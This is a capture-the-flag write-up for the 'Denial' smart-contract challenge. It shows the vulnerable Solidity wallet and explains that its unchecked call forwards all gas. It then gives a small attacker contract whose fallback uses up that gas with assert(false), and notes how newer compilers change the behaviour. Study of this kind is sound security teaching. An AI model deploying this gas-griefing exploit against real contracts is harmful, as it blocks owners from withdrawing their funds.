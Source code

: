 # 20. Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Vulnerability

The vulnerability lies on this line : `partner.call{value:amountToSend}("");` as call will by default forward all gas available.
It is possible for the partner contract to consume all of it and forbid the caller to continue execution.

The easiest way to consume all gas is to provide and invalid OPCODE with `assert(false);`

The following contract can solve the challenge :

```solidity
pragma solidity 0.8.4;

contract TargetCall {
    
    fallback() external payable {
        assert(false);
    }
}
```

## Side note on Solidity >= 0.8.5

There is a different behaviour in versions equal and above 0.8.5 :

the `assert(false)` gets compiled to : `0xFDFE` : `REVERT INVALID`. THis means that the code will revert and not assert, refunding gas and allowing execution to continue for the caller.

Modifying the bytecode solves that issue but is certainly not the cleanest way to do it. See [my answer](https://ethereum.stackexchange.com/a/113362/84305) to a related question for more informations.

